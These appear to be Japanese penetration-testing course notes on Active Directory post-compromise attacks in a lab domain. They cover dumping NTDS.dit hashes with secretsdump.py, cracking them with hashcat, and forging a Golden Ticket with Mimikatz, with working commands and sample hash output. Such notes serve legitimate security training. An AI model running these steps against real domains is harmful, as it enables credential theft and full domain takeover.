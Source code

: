 もし、早くにDCを侵害できたとしても、他の脆弱性を探すか、NTDS.ditを取得する
取得して、こんなのが取れたと言えることが大事
- それらが、ネットワーク上に必要ない場合があるなら取り除く
- DCに不正にログインしたことに気づいて、アカウントを無効化されても大丈夫なように他のDCアカウントをしっかり作っておく
- また、検出できているのか、検出できていないのかを顧客と確認する
- そして、ペネトレが終わったら必ず、クリーンアップする
	- 新しいアカウントを作ったら、それが脆弱性として簡単にしてしまう場合があるから

# NTDS.dit
- ADデータを保存するためのDatabase
- ユーザー情報
- グループ情報
- セキュリティの説明
- パスワードハッシュ

secretsdump.pyでNTDS.ditに含まれる情報のみを取得する
```sh
secretsdump.py <domain>/<user>:<Password>@ターゲットマシンIP -just-dc-ntlm
```

クラックするのは、NTハッシュだけ
hashcatでクラックできる
Tips
- [[3_Initial_AD_Attack_Vectors#hashcat]]

# ゴールデンチケット攻撃
- KRBTGTアカウントを取得できたら、ドメイン全体を奪取できたことになる
- KRBTGT
	- Kereberosチケットを発行するためのチケット
	- チケットを好きなように発行できる
	- ドメイン下のどのマシン・リソースにもアクセスできるし、他のドメインへの足がかりにもなるかも

取得方法
## Mimikatz
- LSAダンプから、KRBTGTアカウントを取得できる
- 必要なもの
	- KRBTGT NTLMハッシュ
	- ドメインSID
- 両方を取得できたら、ゴールデンチケットを生成できる
- ゴールデンチケットを生成したら、PtTで、どこでも使える

### 必要なものの抽出
mimikatzの実行
```sh
C:~ > mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

必要なもの
- ドメインSID
```sh
Domain : MARVEL / s-1-5-21.....
```

- krbtgtのNTLMハッシュ
```sh
User : krtbtgt

* Primary
	NTLM : ........
```

### ゴールデンチケットの生成と利用
 ゴールデンチケット（Golden Ticket） を生成し、/ptt オプションでそのチケットを現在のセッションにインジェクト（Pass-the-Ticket）する
```sh
mimikatz # kerberos::golden /user:Administrator /domain:<ドメイン名> /sid:<上で取得したsid> /krbtgt:<上で取得したkrbtgtのNTLMハッシュ> /id:500 /ptt
```

実際の例
```sh
mimikatz # kerberos::golden /user:Administrator /domain:marvel.local /sid:S-1-5-21-301214212-320777931-1277971883 /krbtgt:11f843aafd22acfb29aef92f6e423994 /id:500 /ptt
```

Mimikatz内から新しいコマンドプロンプト（cmd.exe）を開く
- 直前に /ptt でインジェクトしたゴールデンチケットを「引き継いだ状態」でコマンドを実行できる
```sh
mimikatz # misc::cmd
```

DCから、AD内の他のホスト内のファイルも参照できる
```sh
C\ ~> dir \\<AD内のホスト名>\c$
```
そして、psexec.exeをダウンロードさせれば、krbtgtとしてリモート接続できる
シルバーチケット攻撃もある